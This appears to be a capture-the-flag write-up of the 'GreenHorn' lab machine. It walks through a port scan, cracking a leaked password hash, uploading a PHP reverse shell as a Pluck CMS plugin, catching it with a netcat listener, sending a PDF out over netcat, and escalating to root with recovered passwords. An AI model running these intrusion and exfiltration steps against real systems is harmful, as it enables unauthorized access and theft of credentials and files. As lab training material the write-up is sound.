 As usual, I start by scanning the target machine with nmap, we see only two open ports

<pre><code>> sudo nmap -p80,22 -sCV -Pn 10.10.11.25 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-10 23:25 -03
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: pluck 4.7.18
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds</code></pre>

if we try to access the page, we will not be able to

In many CTF scenarios, access to a service or web page that is hosted on a remote machine is required. In real network environments, IP addresses are associated with domain names via DNS servers, but in CTF environments, there is not always a DNS server that resolves the hostname.
For this reason, you need to manually add that in your /etc/hosts file.

<pre><code>~> echo "10.10.11.25 greenhorn.htb" | sudo tee -a /etc/hosts</code></pre>

once we are on the page the first thing I saw was a login, after a long time (more than I would like to admit) trying to breach it and thinking that the purpose of the machine was that I finally gave up and went back to do the reconnaissance to check if I missed anything.

![1](https://github.com/user-attachments/assets/b2fdb538-9fac-4aec-96ae-4f8fb2d34024)



![2](https://github.com/user-attachments/assets/f18c2462-5bac-4cd6-90c9-622ecd6aeeb0)

I had to rescan the machine with nmap to see that port 3000 was open.
<pre><code>Discovered open port 3000/tcp on 10.10.11.25</code></pre>

now with this new information I have accessed the site again but this time from port 3000.

![5](https://github.com/user-attachments/assets/aa2c5d34-6d7d-4b0c-81be-16f498f08a45)

with gobuster I found this repository

![6](https://github.com/user-attachments/assets/74013583-4a85-41c6-80e5-fd41f75dfe45)

after looking through most of the files in the repository I found this hash 

![8](https://github.com/user-attachments/assets/5242ad32-0829-44c7-89d7-b744d0d18a17)

using hash-identifier I was able to know what kind of hash I was dealing with

<pre><code>> hash-identifier 
/usr/bin/hash-identifier:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163

Possible Hashs:
[+] SHA-512
[+] Whirlpool

Least Possible Hashs:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
--------------------------------------------------
 HASH: </code></pre>


if we decrypt the hash we get the a password

the first thing I did was to go to the login that I previously could not break and test if the password worked. and it did
![9](https://github.com/user-attachments/assets/958e53de-f096-444e-ac03-0ca04b592e89)

and we can see the administration interface of “Pluck”, a content management system.

![10](https://github.com/user-attachments/assets/7d1c8a0a-3b52-4fd4-8eb0-2ed65a46ea7c)
Malicious file upload is one of the most common vulnerabilities in CMS. This problem occurs when an attacker can upload malicious files to the server due to a lack of proper validation or filtering of the uploaded files.

Many CMSs allow administrators to upload plugins or modules to add new functionality. If these plugins are not properly designed, they can allow users to upload files of any type to the server.

and that is what we are going to do
![2](https://github.com/user-attachments/assets/b2fa9e4d-9bce-453f-8a91-134fd56680ae)

for this particular case what I had to do was to use a php reverse shell created by pentestmonkey and save it inside a .zip file
https://github.com/pentestmonkey/php-reverse-shell

and before uploading I start netcat 

<pre><code>> sudo nc -lvnp 3333</code></pre>

![image](https://github.com/user-attachments/assets/0a1fb19e-60ce-4f7a-bdf6-81acaeda3425)


<pre><code>Connection from 10.10.11.25:60296
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 03:46:01 up 17:45,  0 users,  load average: 0.00, 0.09, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ </code></pre>

I went to look for the user flag but I had no privileges.
<pre><code>$ cd /home/
$ ls
git
junior
$ cd junior
$ ls
Using OpenVAS.pdf
user.txt
$ cat user.txt
cat: user.txt: Permission denied</code></pre>


This command uses Python to invoke a Bash TTY shell, so we can work better
<pre><code>$ python3 -c 'import pty;pty.spawn("/bin/bash")'</code></pre>

I tried to put the credential we got previously with that hash and it worked, but only for the user Junior, I still had to escalate privileges.

<pre><code>www-data@greenhorn:/home/junior$ su junior
su junior
Password: iloveyou1

junior@greenhorn:~$ </code></pre>

<pre><code>junior@greenhorn:~$ cat user.txt
cat user.txt
????????????????????????</code></pre>

inside this pdf is the root password, the password is blurred and is a headache to get.

<pre><code>junior@greenhorn:~$ nc 10.10.11.25 1234 < 'Using OpenVAS.pdf'        
nc 10.10.11.25 1234 < 'Using OpenVAS.pdf'</code></pre>

<pre><code>~> nc -nlvp 1234 >  'Using OpenVAS.pdf'</code></pre>



<pre><code>junior@greenhorn:~$ su root
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
</code></pre>

<pre><code>root@greenhorn:~# cat root.txt
cat root.txt
???????????</code></pre>

![2024-09-11_01-02](https://github.com/user-attachments/assets/8eab8df5-38ca-4c16-9261-bf0d1e0baabe)


